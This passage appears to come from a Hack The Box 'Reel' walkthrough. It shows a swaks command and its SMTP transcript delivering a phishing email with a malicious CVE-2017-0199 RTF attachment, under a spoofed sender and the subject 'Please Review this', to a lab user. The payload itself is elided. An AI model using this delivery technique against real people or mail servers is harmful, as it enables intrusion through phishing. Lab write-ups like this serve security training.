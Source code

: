Now time to send the mail with our malicious RTF file. And I attached the RTF file and send to the `nico@megabank.com`

```bash
root@kali:~/CTF/HTB/Boxes/Reel/CVE-2017-0199# swaks --server 10.10.10.77 --from wolf@megabank.com --to nico@megabank.com  --header 'Subject:Please Review this' --attach Invoice.rtf 
=== Trying 10.10.10.77:25...
=== Connected to 10.10.10.77.
<-  220 Mail Service ready
 -> EHLO kali
<-  250-REEL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> MAIL FROM:<wolf@megabank.com>
<-  250 OK
 -> RCPT TO:<nico@megabank.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Tue, 11 Aug 2020 21:41:34 +0530
 -> To: nico@megabank.com
 -> From: wolf@megabank.com
 -> Subject:Please Review this
 -> Message-Id: <20200811214134.007039@kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_7039"
 -> 
 -> ------=_MIME_BOUNDARY_000_7039
 -> Content-Type: text/plain
 -> 
 -> This is a test mailing
 -> ------=_MIME_BOUNDARY_000_7039
 -> Content-Type: application/octet-stream; name="Invoice.rtf"
 -> Content-Description: Invoice.rtf
 -> Content-Disposition: attachment; filename="Invoice.rtf"
 -> Content-Transfer-Encoding: BASE64
 -> 
.
.
.
.
 -> 
 -> ------=_MIME_BOUNDARY_000_7039--
 -> 
 -> 
 -> .
<-  250 Queued (12.141 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
